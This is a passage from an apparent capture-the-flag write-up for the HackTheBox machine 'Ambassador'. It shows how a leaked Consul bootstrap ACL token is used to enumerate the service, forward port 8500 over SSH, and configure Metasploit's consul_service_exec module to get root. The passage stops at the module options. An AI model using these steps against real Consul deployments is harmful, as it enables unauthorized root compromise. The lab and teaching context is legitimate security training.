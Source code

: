 We will need the token above, so make not of it.

As that token has enough privileges to start services (consul runs as root!) we can do so.

```
developer@ambassador:/opt/consul$ consul acl token list --token bb03b43b-1d81-d62b-24b5-39540ee469b5
AccessorID:       00000000-0000-0000-0000-000000000002
SecretID:         anonymous
Description:      Anonymous Token
Local:            false
Create Time:      2022-03-13 23:14:16.941144142 +0000 UTC
Legacy:           false

AccessorID:       2aae5590-4b99-3b3d-56d9-71b61ee9e744
SecretID:         bb03b43b-1d81-d62b-24b5-39540ee469b5
Description:      Bootstrap Token (Global Management)
Local:            false
Create Time:      2022-03-13 23:14:25.977142971 +0000 UTC
Legacy:           false
Policies:
   00000000-0000-0000-0000-000000000001 - global-management
```

```
developer@ambassador:/opt/consul$ consul members --token bb03b43b-1d81-d62b-24b5-39540ee469b5 
Node        Address         Status  Type    Build   Protocol  DC   Partition  Segment
ambassador  127.0.0.1:8301  alive   server  1.13.2  2         dc1  default    <all>
```

We can enumerate more configuration using following command
```
curl http://127.0.0.1:8500/v1/agent/self -H 'X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5' -s | python3 -m json.tool
```

## Exploitation using Meterpreter (creates service on Consul)

Let's set up local port forwarding on the attackers machine using SSH. We're interessted on port 8500
```
ssh -N -L 8500:localhost:8500 -l developer 10.10.11.183
```

Metasploit options
```
msf6 exploit(multi/misc/consul_service_exec) > options

Module options (exploit/multi/misc/consul_service_exec):

   Name       Current Setting                       Required  Description
   ----       ---------------                       --------  -----------
   ACL_TOKEN  bb03b43b-1d81-d62b-24b5-39540ee469b5  no        Consul Agent ACL token
   Proxies                                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8500                                  yes       The target port (TCP)
   SRVHOST    0.0.0.0                               yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080                                  yes       The local port to listen on.
   SSL        false                                 no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                     yes       The base path
```